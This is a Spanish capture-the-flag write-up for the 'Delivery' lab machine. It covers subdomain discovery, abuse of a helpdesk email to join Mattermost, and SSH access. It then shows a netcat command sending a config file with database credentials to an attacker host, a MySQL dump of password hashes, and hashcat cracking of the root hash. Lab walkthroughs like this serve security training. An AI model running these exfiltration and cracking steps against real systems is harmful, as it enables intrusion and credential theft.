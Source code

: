 ## Summary

Tags: 
Y
- IP -> 10.10.10.222
- Ports -> TCP (22, 80, 8065), UDP (idk)
- OS ->  Linux Debian Buster
- Services & Applications
    -  22 ->  OpenSSH 7.9p1 Debian
    -  80 ->  http nginx 1.14.2
    -  8065 -> http webpage Mattermost


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Miramos la pagina web para ver que podemos encontrar
- **/etc/hosts** -> delivery.htb 10.10.10.222
Ctrl + u en la pagina web y miramos el codigo fuente
- **/etc/hosts** -> helpdesk.delivery.htb 10.10.10.222 Agregamos el subdominio

- Comando -> **gobuster vhost -u http://delivery.htb -t 200 -w /usr/share/Seclists/Discovery/DNS/subdomains-top1million-5000.txt** Para descubrir mas subdominios en la ruta de la pagian web y encontramos helpdesk.delivery.htb
El cual nos pones a ingresar datos en las opciones y asi vamos descubriendo cosas. 
Lo interesante es que el correo que creamos en la pagina user@delivery.htb lo podemos usar para checar la consulta con el numero que nos dan y asi poder entrar a la pagina. 

Buscamos en Google que es (Mattermost) y es un servicio de chat en linea de codigo abierto y autohospedable con intercambio de archivos, busqueda e integraciones. 

En la pagina de mattermost podemos usar el correo temporal de la pagina helpdesk 4444@delivery.htb para poder usarlo y crearnos una cuenta en mattermost y cuando nos llegue el correo de verificacion poderlo ver en la pagina del helpdesk. Una vez verificada la cuenta ya podriamos ingresar a Mattermost. 
Una vez dentro de la pagina nos dan un usuario y password qur lo usaremos para conectarnos por ssh.

## User
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh y podemos mirar la flag de user.txt

-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

-
- Comando -> **lsb_release -a** Nos proporciona informacion de que Linux es 

- Comando -> **find / -name mattermost 2>/dev/null** Para encontrar el directorio y los permiso denegados no nos los muestre
- Comando -> **ps -faux | grep -i mattermost** Buscaremos la palabra mattermost de forma insensitive a nivel de procesos y encontramos una ruta la cual es **/opt/mattermost/bin/mattermost** en la cual solo usaremos esta parte **/opt/mattermost** e ingresamos a ese dir
Miramos lo que hay ahi adentro y encontramos un dir **config** en el cual miramos un config.json 

- Comando -> **nc -nlvp 443 | jq** Lo que recibamos por netcat lo convertimos en json para verlo mejor 
- Comando -> **cat config.json | nc 10.10.14.17 443** Enviamos el archivo encontrado a nuestra maquina de atacante para verlo mejor
Encontramos un usuario y una pasword las cuales usaremos para podernos conectar a la base de datos 

Nos conectamos a la base de datos de esta manera 
- Comando -> **mysql -u < user> -p** Nos conectamos y le proporcionamos la password encontrada en el archivo anterior
- **>show databases;**
- **>use mattermost;**
- **>show tables;** 
- **>describe Users;**
- **>select Username,Password from Users;**  Ahi encontraremos el usuario root y un hash 

Usamos la grafica de windows para hacer variantes de la password **PleaseSubscribe!** que es una palabra que encontramos en una conversacion en la pagina web de la maquina victima, en el cual estaremos usando en Windows **\\hashcat-6.2.6\\rules**. Ahi usaremos el **best64.rule** el cual nos ayudara a tener variantes de esa palabra

- Comando -> **hashcat.exe --stdout -r rules/best64.rule pwd.txt > passwords**  Podemos hacer y mostrar variantes de la password almacenada en ese archivo pwd.txt que contiene la palabra PleaseSubscribe! y despues de hacer las variantes nos podemos crear un diccionario llamado passwords, el cual podemos usar para crackear el hash.
- Comando -> **hashcat.exe -m 3200 -a 0 hash passwords** Con la misma herramienta crackearemos el hash pasandole el hash encontrado en la base de datos y el diccionario que acabamos de crear y nos da la password de root.

## Root

- Comando -> **su root** 
Colocamos la password que acabamos de descubrir e ingresamos como el usuario root. Ahora solo queda buscar la flag root.txt